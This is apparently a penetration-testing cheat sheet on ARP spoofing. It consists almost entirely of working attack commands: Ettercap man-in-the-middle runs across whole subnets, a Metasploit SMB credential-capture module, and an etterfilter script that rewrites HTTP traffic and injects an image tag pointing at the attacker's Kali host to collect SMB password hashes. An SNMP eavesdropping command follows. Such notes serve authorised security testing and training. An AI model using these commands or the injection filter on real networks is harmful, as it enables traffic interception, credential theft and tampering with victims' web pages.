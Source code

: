 # ARP spoofing

```
arp -an
```

## Ettercap

```
ettercap -T -q -M arp:remote /172.16.0.1-254// /172.16.0.1-254//
ettercap -TqP smb_down -M arp:remote -F smbcapture.ef /IP// /IP//
```

- h for options

- q for quit

### Etterfilter

```
man etterfilter
```

Add the following: `-F myfilter.ef`

### SMB capture

``` 
msfconsole
use auxiliary/server/capture/smb
set JOHNPWFILE /tmp/johnpwn.txt
set CAINPWFILE /tmp/cainpwn.txt
exploit
```

smb.filter:

```
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!");
      msg("zapped Accept-Encoding!\n");
   }
}
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "If-Modified-Since")) {
      replace("If-Modified-Since", "If-PACified-Since");
      msg("zapped If-Modified-Since\n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("<head>", "<head> <img src=\"\\\\YOURKALIIP\\fake.jpg\"><junk>");
   msg("INJECT!\n");
}
```

Generate the ettercap filter:

`etterfilter -o smb.ef smb.filter`

Spoof : `ettercap -TqM arp:remote -F smb.ef -i tap0 /10.10.80.1-254// /10.10.80.2//`

## SNMP eavesdropping

```
ettercap -TqM arp:remote /10.10.10.1-254// 10.10.10.1-254// -p pcapfile
```

